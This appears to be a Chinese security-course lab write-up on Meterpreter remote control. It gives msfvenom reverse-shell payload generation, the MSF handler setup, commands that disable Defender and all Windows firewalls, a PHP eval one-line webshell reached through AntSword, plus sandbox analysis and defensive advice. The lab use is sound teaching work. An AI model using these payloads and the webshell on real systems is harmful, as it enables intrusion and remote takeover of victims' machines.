










# Meterpreter 远程控制与一句话木马复现

> 对应课程：ch6 远程控制（PPT 第 9-10 页 + 作业）
> 内容：msfvenom 生成被控端并远程控制、微步云沙箱检测、一句话木马与蚁剑连接

## 0. 实验环境

| 角色   | 系统                 | 说明                          |
| ---- | ------------------ | --------------------------- |
| 攻击机  | Kali Linux         | 运行 msfvenom、MSF             |
| 靶机   | Windows 10 x64 虚拟机 | 运行生成的 payload.exe，部署 Web 服务 |
| 在线平台 | 微步云沙箱              | https://s.threatbook.com/   |

---

## 1. Msfvenom 生成被控端

msfvenom 用于生成指定载荷和格式的被控端程序。在 Kali 执行：

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.129 LPORT=5000 -f exe -o payload.exe
```

参数说明：

| 参数       | 含义                            |
| -------- | ----------------------------- |
| `-p`     | 指定 payload，本例为 Windows 反向控制程序 |
| `LHOST`  | 攻击机 IP（靶机回连地址）                |
| `LPORT`  | 回连端口，本例 5000                  |
| `-f exe` | 输出格式为 Windows 可执行文件           |
| `-o`     | 保存路径与文件名                      |

生成后查看文件：

```bash
ls -lh payload.exe
file payload.exe
```

> 反向连接：靶机运行 payload 后主动连接攻击机，可绕过目标入站防火墙。



---

## 2. MSF 启动主控端并控制靶机

### 2.1 启动 MSF 并加载监听模块

```bash
msfconsole
```

加载监听模块，并设置相应参数

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.10.129
set LPORT 5000
```

### 2.2 开启监听

```
exploit
```

显示 `Started reverse TCP handler` 即监听就绪。



### 2.3 靶机运行被控端

将 `payload.exe` 复制到 Win10 靶机（建议先关闭 Defender 实时保护，否则可能被直接查杀），双击运行。

windows里可以使用以下命令，强行关闭所有防火墙。

```powershell
netsh advfirewall set allprofiles state off
```

### 2.4 建立 meterpreter 会话

攻击机 MSF 自动收到回连：

```
[*] Sending stage (199238 bytes) to 192.168.10.131
[*] Meterpreter session 1 opened (192.168.10.129:5000 -> 192.168.10.131:49999) at 2026-11-05 14:47:37 +0800
meterpreter >
```



### 2.5 验证控制权限

进入 meterpreter 后执行：

```
sysinfo
getuid
```

可查看目标系统信息和当前权限，确认已实现远程控制。



 ---

## 3. 微步云沙箱检测被控端

将生成的 payload.exe 上传到微步云沙箱做静态/动态分析（在云端运行，不影响本机）。

### 3.1 上传样本

打开：

```
https://s.threatbook.com/
```

注册登录后，点击「上传样本」，选择 `payload.exe`，等待分析完成。

### 3.2 查看分析报告

报告给出：这是一个MSF 生成的 Meterpreter 反弹 shell，被一个自写的 7KB C 语言加载器（VS2022 编译，`VirtualProtect` + 内存跳转）包装，配置为连接 `192.168.10.129:5000`





---

## 4. 一句话木马与蚁剑连接

### 4.1 准备一句话木马

在靶机里下载 phpstudy ，启用 Apche 服务，然后在 phpstudy_pro/WWW 目录下写入 `shell.php`。

```php
<?php @eval($_POST['cmd']); ?>
```



### 4.2 蚁剑连接

1. 打开蚁剑（AntSword），在空白处右键 → **添加数据**
2. 填写：
   - URL：`http://192.168.10.131/shell.php`
   - 密码：`cmd`（与 PHP 中 `$_POST['cmd']` 一致）
   - 编码器：`base64`



   3.保存，双击该条目连接

   4.成功后进入图形化文件管理界面，可浏览、上传、下载、编辑文件，打开「虚拟终端」执行命令



 右键打开虚拟终端，执行命令



> 若蚁剑连接失败，检查：木马是否为 eval 版本、连接密码是否与 POST 参数名一致、Web 服务是否正常、URL 路径是否正确。

---

## 5. 原理小结

```
msfvenom 生成反向 payload（exe）
        ↓
靶机运行 → 主动回连攻击机 5000 端口
        ↓
MSF handler 接收 → meterpreter 远程控制
        ↓
微步沙箱通过行为分析识别其恶意特征
```

- **反向连接**：服务端（靶机）主动连接客户端（攻击机），规避 NAT 与入站防火墙限制。
- **payload 原理**：加载 `ws2_32.dll`，调用 socket 相关函数建立回连，再接收并执行后续 stage。
- **一句话木马**：通过 `system`/`eval` 执行用户提交的参数，是最精简的 Web 后门；蚁剑将其封装为图形化管理。

## 6. 修复与防护建议

1. 关闭主机自动运行，及时更新杀毒软件，拦截未知 exe。
2. 不运行来源不明的可执行文件，限制普通用户执行权限。
3. Web 服务禁用危险函数（`system`、`eval` 等），对用户输入做过滤。
4. 部署流量监控，识别异常出站回连行为。

---

# 
